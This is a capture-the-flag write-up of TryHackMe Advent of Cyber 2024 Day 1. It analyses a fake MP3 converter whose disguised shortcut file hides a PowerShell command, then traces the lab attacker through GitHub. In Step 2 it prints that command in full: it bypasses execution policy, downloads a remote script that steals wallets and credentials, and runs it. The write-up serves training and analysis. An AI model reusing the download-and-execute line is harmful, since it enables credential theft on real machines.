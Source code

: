 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge


## Challenge Overview 🎅

Day 1 of the **Advent of Cyber 2024** starts off strong by taking us through an investigation into a suspicious YouTube to MP3 converter website. The goal is to analyze downloaded files, uncover malicious behavior, and track down the attacker by following their OPSEC mistakes. Along the way, I explored:
- Metadata analysis with tools like `exiftool`
- Unpacking and inspecting PowerShell scripts
- Tracing digital breadcrumbs back to their source

This was a fun and hands-on start to the month!

## Objectives 🎯

1. Investigate the suspicious website and analyze how it works.
2. Look into the files downloaded from the site for anything malicious.
3. Trace the attacker’s identity using GitHub and highlight their OPSEC blunders.


## Step 1: Investigating the Website

The website, hosted at `10.10.200.221`, looked like a standard YouTube to MP3 converter. Here’s what I did:
1. Opened the site in the AttackBox and noticed the “About” page credited its creator as **“The Glitch.”**
2. Pasted a YouTube link into the form to download a file named `download.zip`.
3. Extracted the ZIP file and found two files inside:
   - **`song.mp3`**
   - **`somg.mp3`**

At this point, everything seemed normal, but the odd filename `somg.mp3` caught my attention.

## Step 2: File Analysis Using ExifTool 🔍

### Analyzing `song.mp3`

I started with the seemingly legitimate file, running:

```
exiftool song.mp3
```

**Result:**
- The file was confirmed to be a regular MP3 with standard metadata.
- Nothing unusual or malicious here—just an audio file.


### Analyzing `somg.mp3`

The suspiciously named `somg.mp3` was next. I ran:

```
exiftool somg.mp3
```

**Result:**
- This wasn’t an MP3 at all! It was actually a Windows Shortcut file (`.lnk`).
- The metadata revealed an embedded PowerShell command:

```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

This command is clearly malicious—it bypasses PowerShell execution policies, downloads a script from a remote URL, and executes it on the victim’s machine.

## Step 3: Opening `somg.mp3` in Browser 🌐

To learn more, I opened the URL embedded in the PowerShell command:

[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

**Script Analysis:**
- The script collects sensitive data, such as:
  - Cryptocurrency wallet files
  - Browser credentials
- This stolen data is sent to a **Command and Control (C2) server** hosted by the attacker.

## Step 4: Tracing the Attacker on GitHub 🔗

The PowerShell script contained a signature:

```
"Created by the one and only M.M."
```

### GitHub Search

I searched GitHub for this signature:

```
"Created by the one and only M.M."
```

This led me to:
- A repository owned by **M.M.**
- GitHub Issues where M.M. interacted publicly, leaving a digital trail.

### Revealing the Attacker’s Identity

By following M.M.’s activity on GitHub, I uncovered:
1. **Real Name:** The attacker’s profile included their real name.
2. **Repositories:** They hosted malicious scripts publicly.
3. **Comments:** M.M.’s interactions in Issues sections tied their GitHub account to the malware.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures

This challenge was a great reminder of how attackers often slip up:
- **Reused Aliases:** M.M. used the same username across platforms.
- **Identifiable Metadata:** Including a signature in the script made it traceable.
- **Public Interactions:** Commenting on GitHub linked M.M.’s activity to their malware.

### Tools and Techniques

Some of the key tools and steps I used:
- **`exiftool`:** To extract metadata and uncover the PowerShell command.
- **Browser Inspection:** To investigate URLs and find additional clues.
- **GitHub Search:** To trace the attacker and identify their OPSEC mistakes.

## Final Thoughts 🎁

Day 1 of the Advent of Cyber series kicked off with a solid introduction to metadata analysis, malicious script investigation, and tracking down an attacker’s identity. It was a great mix of technical analysis and detective work, and I’m excited to see what challenges Day 2 will bring!

- [Main Page](README.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [More Days to Come!](#)
